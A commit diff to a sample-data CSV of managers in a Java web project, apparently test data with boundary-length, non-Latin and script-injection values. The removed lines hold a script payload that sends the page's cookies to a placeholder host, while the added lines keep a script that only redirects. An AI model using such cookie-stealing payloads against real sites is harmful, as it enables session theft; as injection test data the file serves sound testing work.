

Before and after one commit to rafcasceb/Acme-SF-D04, a CSV file: src/main/webapp/WEB-INF/resources/sample-data/manager.csv, drawn as a sheet; long unchanged cells end in ….

```diff
--- a/src/main/webapp/WEB-INF/resources/sample-data/manager.csv
+++ b/src/main/webapp/WEB-INF/resources/sample-data/manager.csv
@@ -6,3 +6,3 @@ manager-04,Filler degree to reach seventy five characters in the attribute of ma
 manager-05,Λορεμ ιπσθμ δολορ σιτ αμετ,Overview 1,Certification 1,https://link1.com,user-account-manager-05
-manager-06,<script> window.location = ‘https://example.com/?user_data=’ + document.cookies; </script>,Overview 1,Certification 1,https://link1.com,user-account-manager-06
+manager-06,<script> window.location = ‘https://example.com’; </script>,Overview 1,Certification 1,https://link1.com,user-account-manager-06
 manager-07,Degree 1,a,Certification 1,https://link1.com,user-account-manager-07
@@ -10,3 +10,3 @@ manager-08,Degree 1,Filler overview to reach one hundred (100) characters in the
 manager-09,Degree 1,貸んい建濯よ芝弾テソ,Certification 1,https://link1.com,user-account-manager-09
-manager-10,Degree 1,<script> window.location = ‘https://example.com/?user_data=’ + document.cookies; </script>,Certification 1,https://link1.com,user-account-manager-10
+manager-10,Degree 1,<script> window.location = ‘https://example.com’; </script>,Certification 1,https://link1.com,user-account-manager-10
 manager-11,Degree 1,Overview 1,a,https://link1.com,user-account-manager-11
@@ -14,3 +14,3 @@ manager-12,Degree 1,Overview 1,"Certification 1, Certification 2, Certification
 manager-13,Degree 1,Overview 1,貸んい建濯よ芝弾テソ,https://link1.com,user-account-manager-13
-manager-14,Degree 1,Overview 1,<script> window.location = ‘https://example.com/?user_data=’ + document.cookies; </script>,https://link1.com,user-account-manager-14
+manager-14,Degree 1,Overview 1,<script> window.location = ‘https://example.com’; </script>,https://link1.com,user-account-manager-14
 manager-15,Degree 1,Overview 1,Certification 1,,user-account-manager-15
```
Also changed, not shown: src/main/webapp/WEB-INF/resources/sample-data/project.csv, src/main/webapp/WEB-INF/resources/sample-data/user-story.csv.
